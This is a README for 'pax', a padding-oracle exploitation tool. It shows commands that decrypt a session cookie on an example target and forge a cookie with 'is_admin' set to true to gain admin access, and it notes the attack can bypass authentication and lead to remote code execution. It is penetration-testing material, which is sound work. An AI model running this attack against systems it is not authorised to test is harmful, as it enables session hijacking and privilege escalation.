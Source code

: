 # pax

[![Travis Build Status](https://travis-ci.org/liamg/pax.svg?branch=master)](https://travis-ci.org/liamg/pax)
[![GoReportCard](https://goreportcard.com/badge/github.com/liamg/pax)](https://goreportcard.com/report/github.com/liamg/pax)

Exploit padding oracles for fun and profit!

Pax (PAdding oracle eXploiter) is a tool for exploiting padding oracles in order to:

1. Obtain plaintext for a given piece of CBC encrypted data.
2. Obtain encrypted bytes for a given piece of plaintext, using the unknown encryption algorithm used by the oracle.

This can be used to disclose encrypted session information, and often to bypass authentication, elevate privileges and to execute code remotely by encrypting custom plaintext and writing it back to the server. 

As always, this tool should only be used on systems you own and/or have permission to probe!

## Installation

Download from [releases](https://github.com/liamg/pax/releases), or install with Go:

```bash
go get -u github.com/liamg/pax/cmd/pax
```

## Example Usage

If you find a suspected oracle, where the encrypted data is stored inside a cookie named `SESS`, you can use the following:

```bash
pax decrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D"
```

This will hopefully give you some plaintext, perhaps something like:

```bash
 {"user_id": 456, "is_admin": false}
```

It looks like you could elevate your privileges here!

You can attempt to do so by first generating your encrypted data that the oracle will decrypt back to some sneaky plaintext:

```bash
pax encrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D" --plain-text '{"user_id": 456, "is_admin": true}'
```

This will spit out another base64 encoded set of encrypted data, perhaps something like:

```
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```

Now you can open your browser and set the value of the `SESS` cookie to the above value. Loading the original oracle page, you should now see you are elevated to the admin level. 

## How does this work?

The following are great guides on how this attack works:

- https://robertheaton.com/2013/07/29/padding-oracle-attack/
- https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth
